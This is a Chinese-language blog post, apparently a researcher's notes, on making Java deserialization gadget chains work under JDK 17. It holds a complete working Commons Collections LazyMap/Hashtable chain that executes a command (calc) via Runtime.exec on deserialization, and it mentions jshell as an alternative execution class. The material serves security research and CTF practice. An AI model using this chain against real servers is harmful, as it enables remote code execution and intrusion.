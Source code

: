 # BypassJDK17 TemplatesImpl链子

当在JDK17中运行Templates的利用链时，会发现报错异常。（心心师傅有天突然跟我说jdk17没法加载啊感兴趣可以研看看）
![image-20230103211557071](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202301032115263.png)

然后找到了这个文章：https://github.com/BeichenDream/Kcon2021Code/blob/master/bypassJdk/JdkSecurityBypass.java

学到了几点：利用unsafe去修改module，即可实现绕过模板。=.=（原理不懂）
而且有意思的是   Class.class中的方法可以通过任何一个类进行反射.....应该是第一次见。=.=（原理不懂）

想了想：我怎么能用cc+jdk17里面打通呢？
我认为：只需要将不能突破的类全部写出来进行突破就行，先是Templates利用链，`没考虑到一个问题是有抽象类`。但是后来在心心解释说到：对方服务器怎么去执行unsafe修改呢？chaintransfrom是一个链式调用怎么单独调用unsafe呢？

所以理论上写是不行的。

当然也不需要绕过....如下poc

```java
        Transformer[] fakeTransformer = new Transformer[]{};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer chainedTransformer = new ChainedTransformer(fakeTransformer);
        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();
        Map lazyMap1 = LazyMap.decorate(innerMap1, chainedTransformer);
        lazyMap1.put("yy", 1);
        Map lazyMap2 = LazyMap.decorate(innerMap2, chainedTransformer);
        lazyMap2.put("zZ", 1);
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, "test");
        hashtable.put(lazyMap2, "test");
        Field field = chainedTransformer.getClass().getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer, transformers);
        lazyMap2.remove("yy");
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(hashtable);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
```

同时另外一个思路打开了，在jdk17下我们可以寻找到所有能够访问的类进行构造poc。

如果`Runtime.class`不能访问（比赛出题可以设置一下~），我们就可以尝试其他的，找到了jshell。这相当于也是一种思路，这篇文章总结了一些常用的命令执行、代码执行的类（https://moonsec.top/articles/124）

那么什么poc会用到绕过jdk17moudle并且是个成功的链子呢？相信以后会碰到。
